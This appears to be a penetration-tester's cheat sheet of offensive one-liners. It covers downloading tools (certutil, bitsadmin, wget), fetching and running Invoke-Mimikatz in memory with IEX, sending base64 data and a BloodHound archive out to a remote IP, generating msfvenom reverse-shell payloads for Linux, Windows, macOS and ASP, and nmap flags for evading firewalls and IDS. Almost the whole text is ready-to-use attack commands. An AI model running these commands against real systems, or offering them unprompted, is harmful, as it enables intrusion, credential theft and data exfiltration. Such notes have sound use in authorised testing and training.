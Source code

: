
* Download a file: `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`, `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`, `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`, `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`, `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`, `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`, `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`
* Execute a file in memory: `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
* Upload a file: `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`, `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`


PowerShell command used to download a file called backupscript.exe from a webserver (`172.16.5.129:8123`) and then save the file to location specified after `-OutFile`.
`Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`

# Unzip

`unzip file.zip`


# msfvenom

`msfvenom -p payload LHOST=IP LPORT=PORT -f fileType > nameoffile.elf`

Examples: 

* Linux reverse shell: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`

* Windows reverse shell: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`

* MacOS reverse shell: `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`

* ASP web reverse shell: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`



<span style="color:#33FFE3">EVASION</span>  

# Firewall and IDS/IPS Evasion

```shell-session
sudo nmap IP -p Ports -sS -Pn -n --disable-arp-ping --packet-trace
```

```shell-session
sudo nmap IP -p Ports -sA -Pn -n --disable-arp-ping --packet-trace
```

Filtered port:

```shell-session
sudo nmap IP -p50000 -sS -Pn -n --disable-arp-ping --packet-trace --source-port 53
```
